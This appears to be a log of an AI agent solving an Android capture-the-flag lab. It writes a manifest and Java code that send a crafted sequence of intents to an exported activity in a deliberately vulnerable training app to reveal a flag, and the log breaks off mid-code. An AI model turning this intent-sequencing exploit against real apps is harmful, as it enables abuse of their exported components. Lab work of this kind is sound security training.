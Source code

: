 Plan & Sandbox Check: I will write the `AndroidManifest_PoC.xml` and `MaliciousFlag4PoC.java` files. I will write them to the `Android-2` directory, as the mission specifies that `AndroidManifest_PoC.xml` and `MaliciousFlag4PoC.java` should be in that directory.

Function Call: id=None args={'file_path': 'Android-2/AndroidManifest_PoC.xml', 'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="MaliciousFlag4PoC"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.AppCompat.Light.DarkActionBar">\n        <activity\n            android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n</manifest>\n'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="🧠 Reactive Reasoning:\n*   **Analyst's Notebook:** Successfully wrote `AndroidManifest_PoC.xml`. Now I need to write the Java source code for the malicious activity.\n*   **1. Observation:** The `AndroidManifest_PoC.xml` file was successfully written to `Android-2/AndroidManifest_PoC.xml`.\n*   **2. Self-Questioning:** What is the next step in creating the PoC? I need to write the Java code for the malicious activity that will send the intents.\n*   **3. Hypothesis:** The next step is to write the `MaliciousFlag4PoC.java` file containing the logic to send the sequence of intents to `Flag4Activity`.\n*   **4. Plan & Sandbox Check:** I will use `write_to_file` to create the `MaliciousFlag4PoC.java` file in the `Android-2` directory. This is safe as it only involves writing a file within the designated project area.\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TAG = "MaliciousFlag4PoC";\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d(TAG, "MaliciousFlag4PoC started.");\n        Toast.makeText(this, "Sending intents to Flag4Activity...", Toast.LENGTH_LONG).show();\n\n        sendIntent("PREPARE_ACTION");\n        sendIntent("BUILD_ACTION");\n        sendIntent("GET_FLAG_ACTION");\n        sendIntent(null); // Send an empty action to trigger success(this)\n\n        Toast.makeText(this, "Intents sent. Check target app for flag.", Toast.LENGTH_LONG).show();\n        finish(); // Close the malicious activity\n    }\n\n    private void sendIntent(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        if (action != null) {\n            intent.setAction(action);\n        }\n        try {\n            startActivity(intent);\n            Log.d(TAG, "Sent intent with action: " + (action != null ? action : "null (to trigger success)"));\n        } catch (Exception e) {\n            Log.e(TAG, "Failed to send intent with action " + action + ": " + e.getMessage());\n            Toast.makeText(this, "Error sending intent: " + e.getMessage(), T